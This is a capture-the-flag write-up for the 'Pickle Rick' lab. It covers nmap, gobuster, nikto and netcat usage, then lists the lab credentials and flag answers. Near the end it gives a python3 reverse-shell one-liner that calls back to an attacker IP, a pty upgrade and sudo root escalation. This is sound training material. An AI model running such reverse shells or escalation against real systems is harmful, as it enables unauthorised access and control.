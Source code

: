 # PICKLE RICK BOX

--------------------------------------------------------------------

**TOOLS USED**: nmap, gobuster, nikto, netcat

**nmap**: network exploration tool and security / port scanner<br>

```
nmap [Scan Type...] [Options] {target specification}
```

Scan Types:<br>
-Ss [DEFAULT] TCP SYN Scan (Doesn't open full TCP connection)<br>
-St TCP Scan (Opens full TCP connection)<br>
-Su UDP Scan<br>

-Sc script scan
-sV probe for service/version info
-oN save output to file
-p- scan all ports

To find all devices connected to a network:

```
nmap -sL x.x.x.x/24
```

**gobuster**: tool to brute force URIs (dirs, files, dns subdomains)

```
gobuster [command]
```

dir mode
-u url
-w  wordlist

***nikto***: web server scanner for known vulnerabilities

```
nikto [options...]
```

-host target IP address

**netcat**: networking utility for reading and writing to network connections using TCP/IP

```
nc [-options] hostname port[s] [ports] ...
nc -l -p port [-options] [hostname] [port]
```

-n suppress name/port resolutions
-l listen mode
-v verbose
-p port

--------------------------------------------------------------------

## GIVEN INFO


**IP Address**: 10.10.55.163

--------------------------------------------------------------------

## PROCEDURE

### 1. FIND FLAG 1

**TOOLS**: nmap, gobuster, nikto, netcat

```
nmap -sC -sV -oN nmap.txt 10.10.55.163
```

![nmap](./imgs/nmap.png)


**EXPOSED PORT (SERVICE)**: 22 (ssh), 80 (http)

***USERNAME: R1ckRul3s***<br>
Found from inspecting page<br>

Tried to brute force SSH with Hydra but there is no password authentication

```
gobuster dir -u 10.10.55.163 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

![gobuster](./imgs/gobuster.png)

robots.txt entry: Wubbalubbadubdub

```
nikto -host 10.10.55.163
```
![nikto](./imgs/nikto.png)

login.php found
***USERNAME: R1ckRul3s***<br>
***PASSWORD: Wubbalubbadubdub***

cat, head, tail commands disabled. use less instead.
```
less Sup3rS3cretPickl3Ingred.txt
```

![less](./imgs/less.png)


***FLAG 1: mr. meeseek hair***

```
less /home/rick/second\ ingredients
```

***FLAG 2: 1 jerry tear***

Start netcat on host machine
```
nc -lvnp 4444
```

Execute in command panel (taken from pentestmonkey)
```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.6.40.234",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

 Get interactive shell
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

```
sudo su -
ls
cat 3rd.txt
```

![sudo](./imgs/sudo.png)

***FLAG 3: fleeb juice***
